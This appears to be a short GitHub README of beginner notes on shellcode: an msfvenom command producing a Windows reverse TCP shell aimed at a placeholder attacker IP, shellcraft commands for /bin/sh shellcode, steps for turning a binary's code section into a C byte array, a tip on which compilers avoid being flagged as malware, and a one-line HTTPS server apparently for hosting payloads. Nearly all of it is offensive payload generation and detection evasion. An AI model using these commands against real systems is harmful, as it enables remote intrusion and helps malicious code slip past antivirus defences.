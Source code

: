 # What ?
Just few notes about shellcodes. Nothing new nor groundbreaking; only reminders, hints and some workbase for beginners in shellcode.


# SHELLCODE GENERATION

#### msfvenom exemple
`msfvenom -p windows/shell_reverse_tcp LHOST=IP_ATTACKER LPORT=9001 -f c`

#### shellcraft exemples
`shellcraft -f c i386.linux.sh
shellcraft -f c i386.linux.execve "/bin/sh" "['sh', '-p']"`


#### from you own binary (here named a.out)
##### if you want to check out ASM
`objdump -d a.out`

##### extract .text section
`objcopy -j .text -O binary a.out a.out.text`

##### convert to buffer
`xxd -i a.out.text`

##### result is to used in :
`unsigned char message[] = { 0x00 ... 0xff };`


# COMPILE TIME

When your target is Windows, you should compile your C code using MSVC and your C# code with csc (Windows version, not mono-csc).

Compiling with mono-csc and mingw-gcc seems to flag you exe as malware in most cases.


# Set a simple HTTPS server

#### create .key / .pem files to encrypt stream
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout "localhost.key" -out "localhost.pem" -subj "/"

#### start server
`sudo python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,keyfile='localhost.key',certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"`

